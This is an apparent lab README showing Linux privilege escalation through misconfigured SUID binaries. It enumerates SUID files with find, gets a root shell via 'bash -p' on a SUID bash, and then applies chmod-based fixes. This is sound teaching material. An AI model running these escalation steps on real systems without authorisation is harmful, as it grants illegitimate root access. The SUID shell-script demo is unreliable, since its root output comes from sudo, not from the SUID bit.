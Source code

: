 # POC-TASKS
# 📌 Linux Security - Exploitation & Hardening (PoC)

This repository demonstrates **SUID misconfigurations** in Linux, including **exploitation and mitigation**.

---

## 🔹 **Task 4: SUID & Privilege Escalation**

This task demonstrates how **misconfigured SUID binaries** can be exploited for **privilege escalation** and how to **mitigate** such vulnerabilities.

---

## ✅ **Setup: Creating a Vulnerable SUID Environment**

### **1️⃣ Set SUID Bit on Bash (Dangerous!)**

```bash
# Grant SUID to Bash (Insecure!)
┌──(kali㉿kali)-[~]
└─$ sudo chmod u+s /bin/bash

# Verify SUID is set
┌──(kali㉿kali)-[~]
└─$ ls -l /bin/bash  
-rwsr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
```

### **2️⃣ Create a Root-Owned SUID Script**

```
# Create a root-owned script
┌──(kali㉿kali)-[~]
└─$ sudo nano /root/root_script.sh

# Paste the following inside the Text editor (nano)
(#!/bin/bash
echo "Running as: $(whoami)"
id)
# Save & exit, then make it executable

# Set SUID permission on the script
┌──(kali㉿kali)-[~]
└─$ sudo chmod 4755 /root/root_script.sh

# Verify permissions
┌──(kali㉿kali)-[~]
└─$ sudo ls -l /root/root_script.sh     
-rwsr-xr-x 1 root root 44 Mar 19 18:30 /root/root_script.sh
```

### **3️⃣Exploitation: Gaining Root Access**

```
## Find SUID binaries
┌──(kali㉿kali)-[~]
└─$ find / -perm -4000 2>/dev/null
/usr/lib/chromium/chrome-sandbox
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap .......

## Exploit SUID on Bash to Get Root Privileges
# Run Bash with SUID privilege
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p

# Verify root access
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p
bash-5.2# whoami
root

## Execute root owned script
bash-5.2# sudo /root/root_script.sh
Running as: root
uid=0(root) gid=0(root) groups=0(root)
```

### **4️⃣Mitigation: Fixing the Security Issues**
```
# Remove SUID from Bash
bash-5.2# sudo chmod -s /bin/bash

# Verify SUID is removed
bash-5.2# ls -l /bin/bash
-rwxr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash

# Change ownership and restrict access
bash-5.2# sudo chown root:root /root/root_script.sh
bash-5.2# sudo chmod 700 /root/root_script.sh

# Verify permissions
bash-5.2# ls -l /root/root_script.sh
-rwx------ 1 root root 44 Mar 19 18:30 /root/root_script.sh
```
### **📌 Task 4 - Summary**  

| **Step**              | **Action**                                         | **Command**                                  |
|----------------------|-------------------------------------------------|---------------------------------------------|
| 🔹 **Setup**          | Set the SUID bit on `/bin/bash`                   | `sudo chmod u+s /bin/bash` |
|                      | Create a script running with root privileges       | `echo -e '#!/bin/bash\necho "Running as: $(whoami)"' | sudo tee /root/root_script.sh` |
|                      | Set SUID permission on the script                  | `sudo chmod 4755 /root/root_script.sh` |
|                      | Verify permissions                                 | `ls -l /bin/bash /root/root_script.sh` |
| 🔹 **Exploitation**   | Find SUID binaries                                | `find / -perm -4000 2>/dev/null` |
|                      | Exploit SUID on Bash to get root                   | `/bin/bash -p` |
|                      | Verify root access                                 | `whoami` |
|                      | Execute the root-owned script                      | `/root/root_script.sh` |
| 🔹 **Mitigation**     | Remove SUID from Bash                             | `sudo chmod -s /bin/bash` |
|                      | Restrict script execution to root only            | `sudo chmod 700 /root/root_script.sh` |
|                      | Verify permissions after mitigation                | `ls -l /bin/bash /root/root_script.sh` |

### **END-x-**
